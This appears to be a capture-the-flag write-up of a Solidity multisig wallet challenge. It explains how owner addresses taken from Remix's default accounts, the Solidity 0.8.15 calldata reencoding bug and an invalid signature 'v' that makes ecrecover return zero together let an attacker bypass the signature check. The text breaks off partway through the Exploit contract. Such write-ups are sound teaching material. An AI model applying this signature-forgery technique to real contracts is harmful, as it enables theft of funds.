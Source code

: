 ```solidity

```

The `owners` are the following five addresses, and the token can be transferred by gathering the valid signatures of a majority of the `owners`.

```solidity
    function initWallet() private {
        owners.push(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4));
        owners.push(address(0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2));
        owners.push(address(0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db));
        owners.push(address(0x78731D3Ca6b7E34aC0F824c42a7cC18A495cabaB));
        owners.push(address(0x617F2E2fD72FD9D5503197092aC168c91465E7f2));
    }
```

The `verify` function is as follows.

```solidity
contract Verifier {
    function verify(address _to, uint256 _amount, SignedByowner calldata scoupon) public {
        Holder memory holder = scoupon.holder;
        Signature memory sig = scoupon.signature;
        bytes memory serialized = abi.encode(_to, _amount, holder.approve, holder.reason);

        require(
            ecrecover(
                keccak256(abi.encodePacked("\x19Ethereum Signed Message:\n32", serialized)), sig.v, sig.rs[0], sig.rs[1]
            ) == holder.user,
            "Invalid signature"
        );
    }
}
```

First, I checked the addresses of the `owners` and found that these are the initial addresses of Remix and that the secret key is known (see [reference](https://github.com/ethereum/remix-project/blob/d13fea7e8429436de6622d855bf75688c664a956/libs/remix-simulator/src/methods/accounts.ts)).
Thus, it is easy to forge signatures. However, when I executed an exploit that used forged signatures, it failed.

I found out why it failed: in the `verify` function, the `holder.user` was set to `0`. This is a bug that existed by Solidity 0.8.15, ["Head Overflow Bug in Calldata Tuple ABI-Reencoding"](https://blog.soliditylang.org/2022/08/08/calldata-tuple-reencoding-head-overflow-bug/). Actually, the version of this source code is set at `pragma solidity 0.8.15;`.

Then, how can the `require` statement be satisfied? The signature `v` given in this `verify` function can be set to any value. If the `v` of the signature is an inappropriate value, the return value of `ecrecover` can be `0`.
This can be used to satisfy the `require` statement.

Therefore, write the following contract. As a result, the private keys of `owners` are not needed.

```solidity
contract Exploit {
    function exploit(address instanceAddress) public {
        Wallet wallet = Wallet(instanceAddress);

        address[] memory owners = new address[](5);
        owners[0] = address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);
        owners[1] = address(0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2);
        owners[2] = address(0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db);
        owners[3] = address(0x78731D3Ca6b7E34aC0F824c42a7cC18A495cabaB);
        owners[4] = address(0x617F2E2fD72FD9D5503197092aC168c91465E7f2);

        uint256 amount = 100 * 10 ** 18;
        address to = address(0x1337);
```
